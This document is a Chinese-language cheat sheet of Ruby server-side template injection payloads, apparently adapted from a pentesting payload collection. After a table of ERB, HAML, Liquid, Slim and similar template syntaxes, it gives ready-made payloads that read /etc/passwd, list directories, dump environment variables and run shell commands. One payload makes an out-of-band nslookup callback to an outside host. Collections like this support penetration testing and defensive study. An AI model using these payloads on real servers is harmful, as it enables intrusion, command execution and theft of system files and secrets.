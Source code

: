 # 服务器端模板注入 - Ruby

> 服务器端模板注入（SSTI）是一种漏洞，当攻击者能够将恶意代码注入到服务器端模板中时，服务器就会执行任意命令。在 Ruby 中，SSTI 可能发生在使用像 ERB（嵌入式 Ruby）、Haml、Liquid 或 Slim 这样的模板引擎时，尤其是当用户输入被直接插入到模板中而没有进行适当的清理或验证时。

## 概述

- [模板库](#模板库)
- [Ruby](#ruby)
    - [Ruby - 基本注入](#ruby---基本注入)
    - [Ruby - 获取/etc/passwd](#ruby---获取etcpasswd)
    - [Ruby - 列出文件和目录](#ruby---列出文件和目录)
    - [Ruby - 远程命令执行](#ruby---远程命令执行)
- [参考文献](#参考文献)

## 模板库

| 模板名称 | 负载格式 |
| ---------- | -------- |
| Erb       | `<%= %>` |
| Erubi     | `<%= %>` |
| Erubis    | `<%= %>` |
| HAML      | `#{ }`   |
| Liquid    | `{{ }}`  |
| Mustache  | `{{ }}`  |
| Slim      | `#{ }`   |

## Ruby

### Ruby - 基本注入

**ERB**:

```ruby
<%= 7 * 7 %>
```

**Slim**:

```ruby
#{ 7 * 7 }
```

### Ruby - 获取 /etc/passwd

```ruby
<%= File.open('/etc/passwd').read %>
```

### Ruby - 列出文件和目录

```ruby
<%= Dir.entries('/') %>
```

### Ruby - 远程命令执行

使用 SSTI 执行代码（适用于 **Erb**、**Erubi**、**Erubis** 引擎）。

```ruby
<%=(`nslookup oastify.com`)%>
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

使用 SSTI 执行代码（适用于 **Slim** 引擎）。

```powershell
#{ %x|env| }
```

## 参考文献

- [Ruby ERB 模板注入 - Scott White & Geoff Walton - 2017 年 9 月 13 日](https://web.archive.org/web/20181119170413/https://www.trustedsec.com/2017/09/rubyerb-template-injection/)